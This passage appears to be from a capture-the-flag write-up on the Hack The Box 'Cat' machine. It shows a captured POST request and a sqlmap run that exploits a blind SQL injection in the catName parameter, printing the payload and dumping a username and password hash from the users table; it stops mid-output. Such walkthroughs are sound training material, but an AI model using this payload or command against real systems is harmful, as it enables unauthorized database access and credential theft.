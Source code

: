```terminal
POST /accept_cat.php HTTP/1.1
Host: cat.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://cat.htb/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: http://cat.htb
DNT: 1
Connection: keep-alive
Cookie: PHPSESSID=ve9rtt5n7f4vmkv5lkfu473qba
Priority: u=0

catName=sirius&catId=1
```

Now I'll save this to a file and give it to `sqlmap`.

```terminal
┌──[10.10.16.4]-[sirius💀parrot]-[25-07-05 4:36]-[~/ctf/htb/cat/git]                                                                                                                 [39/1569]
└──╼[★]$ sqlmap -r accept.req -p catName --risk 3 --level 5 --batch --dbms=sqlite --technique=B -T users -C username,password --dump --threads 5                                              
                                                                                                                                                                                              
        ___                                                                                                                                                                                   
       __H__                                                                                                                                                                                  
 ___ ___["]_____ ___ ___  {1.8.12#stable}                                                      
|_ -| . [(]     | .'| . |                                                                                                                                                                     
|___|_  [']_|_|_|__,|  _|      
      |_|V...       |_|   https://sqlmap.org                                                   
                                               
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws.
 Developers assume no liability and are not responsible for any misuse or damage caused by this program
                                               
[*] starting @ 04:36:41 /2025-07-05/        
POST parameter 'catName' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 80 HTTP(s) requests:
---                            
Parameter: catName (POST)                                                                      
    Type: boolean-based blind                                                                  
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: catName=sirius'||(SELECT CHAR(70,65,113,117) WHERE 9221=9221 AND 2417=2417)||'&catId=1
web server operating system: Linux Ubuntu 19.10 or 20.10 or 20.04 (eoan or focal)
web application technology: Apache 2.4.41
back-end DBMS: SQLite
[04:37:37] [INFO] fetching entries of column(s) 'password,username' for table 'users'
[04:37:37] [INFO] fetching number of column(s) 'password,username' entries for table 'users' in database 'SQLite_masterdb'
[04:37:37] [INFO] retrieved: 11
[04:37:44] [INFO] retrieving the length of query output
[04:37:44] [INFO] retrieved: 32
[04:38:24] [INFO] retrieved: d1bbba3670feb9435c9841e46e60ee2f             
[04:38:24] [INFO] retrieving the length of query output
[04:38:24] [INFO] retrieved: 4
[04:38:32] [INFO] retrieved: axel           
[04:38:32] [INFO] retrieving the length of query output
[04:38:32] [INFO] retrieved: 32
```